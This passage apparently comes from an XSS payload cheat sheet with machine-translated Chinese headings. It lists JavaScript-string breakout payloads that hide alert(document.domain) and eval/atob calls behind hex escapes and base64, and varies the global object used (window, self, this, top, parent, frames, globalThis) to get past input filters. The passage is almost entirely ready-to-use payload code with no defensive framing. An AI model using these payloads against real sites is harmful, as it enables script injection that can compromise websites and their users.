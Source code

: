 ```
';this['\x61\x6c\x65\x72\x74'](this['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(上)**

```
';top['\x61\x6c\x65\x72\x74'](top['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(父序列)**

```
';parent['\x61\x6c\x65\x72\x74'](parent['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(帧)**

```
';frames['\x61\x6c\x65\x72\x74'](frames['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 转换成 JavaScript 字符串:十六进制转义序列(globalThis)**

```
';globalThis['\x61\x6c\x65\x72\x74'](globalThis['\x64\x6f\x63\x75\x6d\x65\x6e\x74']['\x64\x6f\x6d\x61\x69\x6e']);//
```

#### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(window)**

```
';window['\x65\x76\x61\x6c']('window["\x61\x6c\x65\x72\x74"](window["\x61\x74\x6f\x62"]("WFNT"))');//
```

#### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(self)**

```
';self['\x65\x76\x61\x6c']('self["\x61\x6c\x65\x72\x74"](self["\x61\x74\x6f\x62"]("WFNT"))');//
```

#### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(this)**

```
';this['\x65\x76\x61\x6c']('this["\x61\x6c\x65\x72\x74"](this["\x61\x74\x6f\x62"]("WFNT"))');//
```

#### **XSS 成 JavaScript 字符串:十六进制转义序列和 base64 编码字符串(上)**

```
';top['\x65\x76\x61\x6c']('top["\x61\x6c\x65\x72\x74"](top["\x61\x74\x6f\x62"]("WFNT"))');//
```
